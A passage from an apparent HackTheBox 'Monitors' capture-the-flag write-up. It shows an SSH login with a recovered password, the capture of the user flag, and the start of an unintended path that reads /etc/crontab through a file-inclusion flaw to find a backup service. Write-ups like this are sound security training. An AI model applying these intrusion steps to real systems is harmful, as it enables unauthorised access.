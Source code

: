Using this password we can now log into marcus account via ssh and grab the user flag.

```js
$ ssh marcus@10.129.136.121
The authenticity of host '10.129.136.121 (10.129.136.121)' can't be established.
ECDSA key fingerprint is SHA256:qcinAnoUyOFIv8VZ0yXCnFRNmzc6Zghh1VbQQD43abI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.136.148' (ECDSA) to the list of known hosts.
marcus@10.129.136.121's password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
...[snip]...


marcus@monitors:~$ id
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
marcus@monitors:~$ ls
note.txt  user.txt
marcus@monitors:~$
```

## Unintended User

Up to a half day after release there was also an unintended way to get to the user which let's us bypass the `cacti-admin.monitors.htb` vhost.

Going back to our extracted files from the LFI fuzz there is also an `\etc\crontab`, which reveals the same backup service running.

```js
$ cat \\etc\\crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
@reboot www-data /usr/sbin/service cacti-backup start
```

From there it is pretty much the same steps we took before, shown here using burp.
First we get the service in the `systemd` directory.
